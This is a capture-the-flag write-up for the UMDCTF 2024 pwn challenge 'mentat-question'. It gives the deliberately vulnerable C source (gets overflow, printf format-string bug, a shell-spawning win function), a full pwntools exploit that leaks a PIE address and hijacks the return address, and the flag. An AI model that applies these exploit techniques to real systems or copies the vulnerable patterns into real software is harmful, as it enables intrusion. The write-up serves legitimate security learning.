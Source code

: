```yaml
---
title: mentat-question
date: 2024-04-28T23:58:34+03:00
description: Writeup for mentat-question [UMDCTF_2024]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Thufir Hawat is ready to answer any and all questions you have. Unless it's not about division...

## Intuition

For this challenge, we receive the source code. I will be attaching it below, in a code box. We can notice multiple interesting things:
1. We have a _win_ function (``secret``).
2. We have a buffer overflow when ``gets(buf)`` is called in ``calculate``.
3. We have a format string vulnerability when ``printf(buf)`` is called in ``calculate``.
4. Binary has PIE enabled.

The idea is to get to the vulnerabilities, so it's a game of bypassing checks. Firstly, we somehow have to get to ``num2 < 1``, but also bypass ``strncmp(buf, "0", 1) == 0`` in main. We see ``num2`` is unsigned, which means we can only bypass the first condition by assigning it the value 0. However, we can't pass 0 as the input, because of the condition in main, that won't allow us to enter ``calculate`` in the first place. So then, the next idea is to give a really high number as input, so the buffer won't be ``"0"``, but after it's converted and assigned, num2 will overflow to 0. Then we can use the vulnerabilities we noticed above.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

    if (num2 < 1) {
        puts("Oh, I was not aware we were using negative numbers!");
        puts("Would you like to try again?");
        gets(buf);
        if (strncmp(buf, "Yes", 3) == 0) {
            fputs("Was that a ", stdout);
            printf(buf);
            fputs(" I heard?\n", stdout);
            return 0;
        } else {
            puts("I understand. Apologies, young master.");
            exit(0);
        }
    }

    return num1 / num2;
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    uint32_t num1;
    uint32_t num2;
    uint32_t res = 0;

    char buf[11];
    puts("Hello young master. What would you like today?");
    fgets(buf, sizeof(buf), stdin);

    if (strncmp(buf, "Division", 8) == 0) {
        puts("Of course");
        while (res == 0) {
            puts("Which numbers would you like divided?");
            fgets(buf, sizeof(buf), stdin);
            num1 = atoi(buf);

            fgets(buf, sizeof(buf), stdin);
            getc(stdin);
            if (strncmp(buf, "0", 1) == 0) {
                puts("I'm afraid I cannot divide by zero, young master.");
                return 1;
            } else {
                num2 = atoi(buf);
            }

            res = calculate(num1, num2);
        }
    }

    return 0;
}
```

## Solution

We use the plan above to get to the vulns. Then we leak ``main`` function's address to find the PIE ASLR slide and then we get to ``calculate`` again to use the buffer overflow. We overwrite the return address with ``secret`` and that's it. You can find the script below with explanations:

```py
#!/usr/bin/env python3

from pwn import *

# okay I did a cool trick here lol
# I added +1 to skip the push rbp because system crashes on stack misalignment
# You can also do this by returning to simple ``ret`` gadget, to align again
# But I was too lazy to run ROPGadget on this challenge.
# In fact, I didn't even import in Ghidra, I used objdump and gdb only.
# I got this offset by doing main - secret in gdb
secret_offset_from_main = - 306 + 1 

#target = process("./mentat-question")
target = remote("challs.umdctf.io", 32300)

target.sendlineafter(b"Hello young master. What would you like today?", b"Division")
target.recvuntil(b"Which numbers would you like divided?")
target.sendline(b"1")
target.sendline(b"4294967296") # max value of uint32_t that overflows to 0

# leak 25$p, found through trial and error and gdb
# you can also calculate it but usually it's not trivial
target.sendlineafter(b"Would you like to try again?", b"Yes %25$p")
print(target.recvline())
main_leak = int(target.recvline().split()[-3], 16)

# calculate absolute address
secret_addr = main_leak + secret_offset_from_main

payload = b"a" * 0x15 + p64(secret_addr)

target.recvuntil(b"Which numbers would you like divided?")
target.sendline(b"1")
target.sendline(b"4294967296")

# do the thing
target.sendlineafter(b"Would you like to try again?", b"Yes" + payload)

# this is the part where my mentat starts having an epileptic seizure
# do they ever do that in the books?
target.interactive()
```

### Flag

``UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}``
